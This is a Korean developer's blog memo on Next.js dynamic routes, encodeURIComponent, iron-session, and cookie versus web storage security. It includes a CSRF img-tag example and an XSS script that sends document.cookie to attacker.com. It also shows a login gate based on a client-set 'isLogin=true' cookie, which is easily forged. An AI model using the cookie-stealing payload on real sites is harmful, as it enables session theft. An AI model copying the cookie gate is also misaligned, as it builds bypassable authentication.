 ```yaml
---
layout: post
title: "[241030] encodeURIComponent, iron-session, 웹 스토리지 등"
date: 2024-10-30 00:00:00 +0900
categories: memo
---
```


### [id]로 쓰려던 해쉬값에 슬래쉬(/) 가 들어가버렸다!

nextJS 프로젝트를 하다보면 제일 자주 사용하는 기능. dynamic routes.

`pages/blog/[slug].js` 이렇게 파일을 경로를 지정하면 url이 `/blog/...` 일 때 해당 파일이 렌더링 되고 …값이 [slug]에 저장되는 형태이다.

[slug]값은 useRouter로 가져올 수 있다. 예를 들어 /blog/a 라는 주소에 들어왔다면

```jsx
import { useRouter } from "next/router";

export default function Page() {
  const router = useRouter();
  return <p>Post: {router.query.slug}</p>;
}
//	{ slug: 'a' }
```

이렇게 쏙 값을 빼올 수 있다. _(물론 react나 바닐라 js에서도 경로에 있는 값을 가져오는 방법은 있다. Nextjs가 좀 더 쉽게 만들어놨을뿐)_

https://nextjs.org/docs/pages/building-your-application/routing/dynamic-routes

어쨌든 그래서 해당 기능을 (유저 정보를 조회하거나 게시글을 조회할 때 등) 틀은 같지만 안의 데이터만 달라질 때 사용한다.

서두가 길어졌는데 여튼 유저마다 고유의 hash값을 가진채로 서버에서 보내주는데 이를 URL에 넣어 페이지를 구별하려고 했다. `/info/[hash]` 이런식으로. 그리고 이 값을 가지고 조회 페이지에서 유저의 정보를 조회해와야 했었다.

근데 서버가 보내준 hash값에 ‘/’가 들어가있어 URL에 들어가는 순간 다른 패스파라미터로 되어 info 페이지에서 쪼개진 hash값을 찾아버리는 문제가 생겼다.

**생각해낸 해결법**

1. **‘/’값만 임의로 다른 값으로 대체한다**
   1. 대체한 값이 기존 해시값에 존재하면 나중에 다시 되돌릴 때 그 값도 같이 대체되기 때문에 불가능
2. **btoa - atob를 사용하여 base64로 인코딩된 문자열을 만들고 조회 페이지에서 디코딩하여 원래 값을 가져온다.**
   1. https://developer.mozilla.org/ko/docs/Web/API/Window/btoa
   2. 이진문자열에서 base64로 인코딩된 ASCII 문자열을 생성한다. 통신 문제를 일으킬 수 있는 데이터를 인코딩한다.
   3. 근래에 btoa 함수를 쓸 일이 많아서 가장 먼저 떠올랐는데, 굳이 인코딩안 해도 되는 값도 인코딩하기 때문에 url만 길어지고 별로였다. 보통 이런 용도로 안 쓸 것 같기도 하고.
3. **encodeURIComponent - decodeURIComponent ✅**

   1. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent

   ```jsx
   A–Z a–z 0–9 - _ . ! ~ * ' ( )
   ```

   위 문자를 제외하고 모두 UTF-8 방식으로 인코딩한다. (그러므로 /도 인코딩된다)

   참고로 encodeURI는 아래 문자를 제외하고 인코딩한다.

   ```jsx
     A-Z a-z 0-9 ; , / ? : @ & = + $ - _ . ! ~ * ' ( ) #
   ```

### iron-session

프로젝트에서 사용하길래 찾아봤다.

https://github.com/vvo/iron-session

- JavaScript를 위한 안전하고, 상태 비저장이며, 쿠키 기반 세션 라이브러리입니다.
- 세션 데이터는 서명되고 암호화된 쿠키에 저장되면 이는 서버 코드에서 상태 없는 방식으로 디코딩된다.
  _(그냥 봐서는 잘 모르겠어서 직접 코드로 짜봐야 알 것 같다)_

### 브라우저에서 cookie 설정하고 getServerSideProps에서 읽기

- 로그인을 해야만 접근할 수 있는 Nextjs 프로젝트를 맡았는데 서버에서 주는 인증토큰이 따로 없어서 로그인할 때 프론트에서 로그인 여부를 저장했어야 했다.
- 처음엔 encrypt된 값을 sessionStorage에 담아놓고 useEffect로 판단했는데 ‘/’ 로 접근할때마다 로그인이 안되어있으면 잠깐 메인페이지가 보였다가 로그인 페이지로 이동하는 모습이 마음에 안들었다. 물론 그 부분은 처리해주면 되긴 하지만 코드가 넘 지저분해지고 nextjs를 쓰는 이유도 사라진다고 생각했다.
- 그래서 쿠키를 사용하기로 했다. _(탭을 닫았을 때 로그인이 풀렸으면 좋겠다고 의견이 나와서 sessionStorage로 나중엔 돌아가긴 했다…)_
  - 우선 nextjs의 api route를 사용해서 로그인에 성공하면 로그인 여부를 구별할 수 있는 cookie를 setting하는 api route를 호출했다. (https://nextjs.org/docs/pages/building-your-application/routing/api-routes)
  - 그리고 그걸 getServerSideProps에서 읽어와서 redirect하는 방식으로 구현했다.
  - 좋은 방법인지는 모르겠다. 제일 좋은 방법은 서버에서 인증토큰을 보내주는 방법이겠지… 😓

```jsx
export async function getServerSideProps({ req }: { req: any }) {
  const cookies = req.headers.cookie;
  if (!(cookies && cookies.includes("isLogin=true")))
    return {
      redirect: {
        destination: "/login",
        permanent: false,
      },
    };

  return { props: {} };
}
```

```jsx
//react-cookie 사
const cookies = new Cookies();
cookies.set("isLogin", true);
```

### 쿠키, 세션, 세션스토리지, 로컬스토리지…

갑자기 든 의문: 세션스토리지는 왜 세션스토리지일까? 그리고 세션스토리지와 로컬스토리지는 얼마나 안전할까…

https://developer.mozilla.org/ko/docs/Web/API/Window/sessionStorage

- SessionStorage: 페이지 세션은 브라우저가 열려있는 한 새로고침과 페이지 복구를 거쳐도 남아있습니다. _→ 아무래도 브라우저 세션동안에만 저장되기 때문에 세션 스토리지인가보다._
- 인터넷에 검색해보니까 CSRF에서는 안전하고 XSS에는 취약하다는데 잘 와닿지 않는다.

- **CSRF (Cross-Site Request Forgery)**
  - 교차 사이트 요청 위조, **신뢰할 수 있는 사용자를 사칭**해 웹 사이트에 원하지 않는 명령을 보내는 공격
  - 사용자를 속여 의도치 않은 요청을 보내게 만든다. **(서버로 공격)** 피해자가 **인증된 상태**임을 악용해 요청을 실행한다.
    ex) A씨가 은행 웹사이트 `http://bank.com`에 로그인한 상태로 브라우저를 열어 둔 채, 이메일을 확인한다. 공격자는 이메일에 아래 html을 숨긴다.
    `<img src="http://bank.com/transfer?to=attacker&amount=1000" />`
    위의 url은 은행 웹사이트에서 get method로 to에게 amount 만큼을 송금하는 url이다. (해당 url은 네트워크 탭으로 분석하면 금방 알아낼 수 있다) A씨가 이메일을 열고 이미지를 로드하는 순간, 브라우저는 `bank.com`에 요청을 보낸다.
    `bank.com` 서버는 이 요청을 정당한 사용자(A씨)가 보낸 것으로 판단하고, A씨 계정에서 공격자 계정으로 1000원이 이체된다.
    **→ 대응방법:** 쿠키에 SameSite 속성을 설정한다. Referer 또는 Origin 헤더를 거증한다.
    이런 이유로 대부분의 안전한 시스템은 민감한 작업은 POST 요청으로 처리한다. (물론 POST 요청도 FORM 요청 등으로 조작 가능 하지만 GET보단 까다롭다)
- **XSS** (Cross Site Scripting)
  - 공격자가 웹사이트에 **악성 클라이언트 사이드 코드를 삽입할 수 있도록 하는 보안 취약점 공격**
  - 주로 피해자의 브라우저에서 실행된다.

```jsx
<script>alert('Your session is stolen!');</script>

<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

이런식으로 script를 브라우저가 실행하게 해 내부의 cookie값을 가져간다.

→ **대응 방법:** 사용자 입력값을 검증, 인코딩한다. httpOnly 쿠키를 설정한다 등

ChatGpt가 잘 요약해줬다.

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/d2d0348d-b394-49c9-b6fe-f9ad02f7f098/71d6d277-92fc-422c-b24c-56fefe293a6e/image.png)

`sessionStorage`는 쿠키처럼 HTTP 요청에 자동으로 포함되는 게 아니라서 CSRF에 안전하지만, JavaScript로 접근 가능하므로 XSS에 취약하다.

**[참고 링크]**

https://stackoverflow.com/questions/46206618/when-to-use-btoa-atob-encodeuricomponent-and-decodeuricomponent

https://velog.io/@gonggi_bab/%EC%BF%A0%ED%82%A4%EC%99%80-%EC%9B%B9-%EC%8A%A4%ED%86%A0%EB%A6%AC%EC%A7%80-%EA%B7%B8%EB%A6%AC%EA%B3%A0-%EB%B3%B4%EC%95%88
